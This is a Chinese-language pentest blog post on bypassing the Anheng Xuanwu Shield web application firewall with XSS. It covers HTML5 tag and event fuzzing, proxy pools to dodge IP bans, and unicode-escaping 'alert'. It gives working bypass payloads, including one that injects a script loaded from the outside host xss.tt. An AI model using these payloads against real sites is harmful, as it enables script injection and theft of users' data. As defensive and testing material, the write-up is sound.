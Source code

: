 ```yaml
---
title: XSS bypass 安恒玄武盾
abbrlink: 34838
date: 2019-06-10 17:42:05
categories: WEB
tags:
- XSS
---
```


## 起因 

最初发现来自实验室的小伙伴,但是仅限于弹窗,后来发现这种类型的payload构造思路来自[XSS挑战第一期Writeup](<http://www.anquan.us/static/drops/papers-894.html>)和[XSS挑战第二期Writeup](<http://www.anquan.us/static/drops/papers-938.html>)以及使用了fuzz的一些小技巧,可以实现任意js代码执行.

绕云waf简单的方式就是绕过cdn,找真实ip,翻一下历史解析记录基本都能找到,也有一些工具,比如我在[另一篇文章](<https://m09ic.top/posts/48529/>)收集的[fuckcdn](<https://github.com/Tai7sy/fuckcdn>)

有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.

### fuzz起手


最近一次测试是在今年四月份,最近手里没网站测试了,很多东西只能靠口诉了.

先上最终payload,payload不唯一,可以有无限多种变形.

```
6666666"> <video hidden="hidden" onloadedmetadata="[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>
```

大佬们应该一眼就看出来问题了.

玄武盾拦截的截图:

![1](1.png)

如果payload中存在`onerror=,onload=`这些事件,`<img>,<script>`这些标签或者`alert,javascript`这些敏感词,就会弹出玄武盾.

能fuzz就不手测,如果被ban了ip就上代理池.好像burpsuite不支持代理池,所以简单的fuzz自己写个脚本调用下代理池就好了.

推荐一个[开源的代理池](<https://github.com/qiyeboy/IPProxyPool>),有官方提供的dockerfile(我之前使用的时候是有的,刚出去找没找到,不过手动搭建也很快),一键搭建.

玄武盾对常见关键字过滤的还是挺全的.但是直接fuzz一下就可以发现,比如`<video>,<canvas`这些html5标签不会触发玄武盾.html5普及都这么多年了,玄武盾还没更新到html5,确实无语.

html5标签大概有100多个,可以用我收集的[html5标签字典](<https://github.com/M09Ic/mywordlist/blob/master/html_tags.txt>).

使用html5进行的xss有不少方法,以html5与xss到google搜索一下就可以找到很多相关的文章,还有一些靶场.

比如[HTML5_Security_Cheat_Sheet](<https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/HTML5_Security_Cheat_Sheet.md>)与[html5sec](<https://html5sec.org/>),这里就不多说了.

比较容易用来构造xss的标签有`video`.

随手插入一个`<video src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>`,成功

既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.[html5事件字典在这](<https://github.com/M09Ic/mywordlist/blob/master/html_event.txt>)

很快就找到了比如:`onloadedmetadata`(好像是余弦大佬提出的)不需要额外的交互,打开网站.当在指定音视频（audio/video）的元数据（如分辨率和时长）加载后触发.

记得把video标签加上hidden属性.不然动静太大了.

还有一些其他可用的video的事件,请见[他山之石 | 对 XSS 的一次深入分析认识](<https://www.freebuf.com/articles/web/195507.html>)

### 编码绕过

虽然绕过了关键字检测,但是如果直接用`alert()`还是会触发玄武盾.

这里就需要一个2014年乌云大佬们演示过的方法了.

通过数组实例的`find()`方法,用于找出第一个符合条件的数组成员.

`find()`的参数是一个回调函数.验证漏洞用`alert`即可.

当然`alert`关键字已经被过滤,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将`alert` js编码为`\u0061lert`.稍微降低下payload长度,所以只编码一个字符就可以了.

这里需要详细解释下:

浏览器首先会用HTML解析器对HTML文档进行词法解析,也就是说如果遇到HTML实体编码,会将其解码,但是注意,解码后并不会当做一个标签,也就是说,类似`&#x3c;&#x76;&#x69;&#x64;&#x65;&#x6f;&#x3e;`(`<video>`)这样的标签是不会解释的,但是在数据内部,比如`<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;: alert()" >`(`<a href="javascript: alert()" >`)则能执行js.

接着浏览器会调用js解析器对js脚本进行解释,如果遇到url编码,会调用url解析器进行解码.

如果js解析器遇到了js编码,且在字符串中,也就是`\u****`类型的,则会将其js解码后正常执行js代码需要注意的是比如引号,双引号这些控制字符就算被解码了,也不能生效.也就是说,不能通过js编码逃逸引号.

所以,最终事件内payload为:

`[1].find(\u0061lert)`

### 成功执行

发送payload:

![2](2.png)

成功执行,绕过玄武盾.

当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:

```
[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})
```

在最开头的两篇文章中偷来的,手动滑稽.

中间如果有被过滤的关键字,js编码下即可.

完美绕过玄武盾执行任意js代码.